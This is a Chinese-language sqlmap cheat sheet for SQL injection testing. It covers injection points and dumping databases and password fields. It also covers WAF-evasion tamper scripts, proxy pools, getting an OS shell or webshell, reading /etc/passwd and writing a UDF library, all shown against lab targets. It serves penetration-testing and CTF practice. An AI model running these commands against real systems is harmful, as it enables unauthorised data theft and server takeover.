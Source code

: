 sqlmap 是一个用于对关系型数据库自动化 SQL 注入检测和利用的开源工具。SQL 注入是一种常见的安全漏洞，允许攻击者通过注入恶意 SQL 语句来执行未经授权的数据库操作。sqlmap 旨在帮助安全研究人员和黑客发现和利用应用程序中的 SQL 注入漏洞。

sqlmap好像默认走系统代理，要注意系统代理的可达性，否则可能sqlmap一直失败。最好关闭系统代理，需要时手动指定代理。
## **安装sqlmap使用**
```
windows:
python sqlmap.py -u 网址

linux kali:
sudo apt update
sudo apt install sqlmap
sudo apt upgrade sqlmap  //更新sqlmap
sqlmap -u 网址
sqlmap -hh   //获取帮助
sqlmap -version 
```
sqlmap汉化版：
<https://github.com/BugFor-Pings/CN_Sqlmap>
<https://github.com/honmashironeko/sqlmap-gui>
bp插件安装sqlmap:<https://blog.csdn.net/luochen2436/article/details/118525503>
sqlmap-plus二开升级，增加MSSQL数据库注入的利用方式(调用ole对象和xpcmdshell,clr)等：<https://github.com/co01cat/SqlmapXPlus>

## **指定注入点**
手册：<https://static.kancloud.cn/lengyueguang/linux/1263643>
<https://sqlmap.highlight.ink/>
```
1. 默认get型注入点,直接-u加网址即可
-u http://sqlsec.com/index.php?r=default/news/content&id=16

2. get型伪静态网页，用*指定注入点
-u http://a.com/post/12*.html

参数键注入用?*=1

3. POST型注入点 ，UA头都为包里的
bp抓包，将请求体中注入点参数用*标记，如：id=12*
将请求体保存文件如s.txt中
sqlmap不用-u 用 -r s.txt

4. POST型注入点  ，此时的默认UA头带有sqlmap
--data="id=122"

5.xml里的参数点
和POST类似
```

## **常用模板命令**
```


–batch 批处理自动注入
--ignore-code=500  忽略500


sqlmap -u b7fdb6ca.sqlsec.com/?id=2 --dbs -v-3 --dump -C "content" -T flag_is_here -D "db"

mysql:
sqlmap -u "http" --dbms=mysql --random-agent -v 3



后台主机加cookie：
--cookie      加cookie请求



直接连接数据库
sqlmap.py -d "mysql://root:123456@127.0.0.1:3306/mysql" --os-shell
```


## **sqlmap常用参数**
```
--dbms=mysql    指明为mysql，节省识别时间

--random-agent  随机UA，防止WAF

-v 3      查看注入时使用的语句

--is-dba      看是否是管理员高权限
、
--privilege    查看权限
--current-user   查看当前登录数据库的用户名

--dbs    高权限获取所有数据库库名

--current-db   查看当前数据库的库名
返回[INFO] retrieved:'库名'

--tables      所有库中的表名
--tables -D "库名"  显示 指定库中的所有表名

--columns -T "表名" -D "库名"     获取表名中所有字段

--dump -C "name,password" -T “表名” -D "库名"   获取对应字段name,password的表中记录
password字段可能会顺带解密
```

```
--search   搜索列，表，库名

注入类型：默认从上到下
--technique=U 联合注入
--technique=E  报错型
--technique=B  布尔注入
--technique=T  时间注入
--technique=S  多语句查询注入
--technique=Q  内联注入，sqlserver用的多 

检测级别：
--level=1  默认为1
--level=2  加测 HTTP  Cookie  
--level=3  加测  UA,Referer
--level=4  更大的playload
--level=5  更大的 

检测风险级别
--risk    默认为1最高3，一般不最高3,可能会删库删除纪录，留脏数据。
--level=5  --risk=3,尽最大力进行sql注入。

--flush-sessions  清除缓存，清除脱裤纪录
--cookie      加cookie请求

--proxy socks5:// 127.0.0.1:10808   挂代理跑sqlmap
--proxy-file proxys.txt  使用代理池列表

--delay=1  每一秒请求一次
--retries   连接超时最大重试次数，默认为3
--skip="user-agent referer"  跳过注入

--threads 10  默认1，设置为10线程方便脱裤
```
## **绕过防护**
```
--random-agent  随机UA，防止WAF


绕过WAF,修改注入数据格式：
sqlmap的tamper/文件中自带脚本
调用脚本
-- tamper="between,randomcase,space2comment"
-- tamper="symboliclogical,randomcase,space2comment"

between: <>=换成between
space2comment: 空格用/**/替换
randomcase: 随机字母大小写
symboliclogical: 替换or and

base64编码、url编码、双url编码、宽字节、使用/**/分割sql关键字、替换空格为xx
```
## **获取shell，文件操作等**
```
--sql-shell   调出sql的shell，可以使用sql语句，如用sql语句查询表中记录。如果要执行文件写入，插入数据，要使用堆叠注入。

--os-shell    调出系统交互shell
通过选择网站程序语言写入16进制的小马webshell到网站目录下，实现getshell。
如果找不到phpstudy网站目录，可以选择2，手动输入phpstudy的网站目录。
正常直接返回可以交互shell的窗口。
如果失败可以访问网址首页加/tmpxxxx.php看看，是一个上传文件表单的小马，这里可以手动上传shell.php，
上传也在当前目录，然后用蚁剑getshell。

--os-cmd=id   执行系统命令id

--file-read="/etc/passwd"  读文件，利用的load_file()函数
可以读flag文件，/var/www/html/index.php

sqlmap 来上传文件：
又因为 GET 有字节长度限制，所以往往 POST 注入才可以执行这种攻击
sqlmap写动态链接库
sqlmap -u "http://localhost:30008/" --data="id=1" 
--file-write="/Users/sec/Desktop/lib_mysqludf_sys_64.so" 
--file-dest="/usr/lib/mysql/plugin/udf.so"

```

## **点到为止脱裤**
脱裤：下载数据库中的信息
一般都使用 sqlmap 来进行脱裤，使用 --start --stop 来设置脱裤的起点和终点：

```
sqlmap -u "http://127.0.0.1:8888/Less-1/?id=1" --dump -C'id,username,password' -T 'users' -D 'security' --start=1 --stop=5
```

![](https://0b4e0933.sqlsec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E6%A6%82%E8%BF%B0/imgs/image-20200721213636280.png)

如果要证明某个表下面的数量的话，直接使用 sqlmap 的 `--count` 参数即可

```
sqlmap -u "http://127.0.0.1:8888/Less-1/?id=1" --count -T 'users' -D 'security'
```

![image-20200721213755305](https://0b4e0933.sqlsec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E6%A6%82%E8%BF%B0/imgs/image-20200721213755305.png)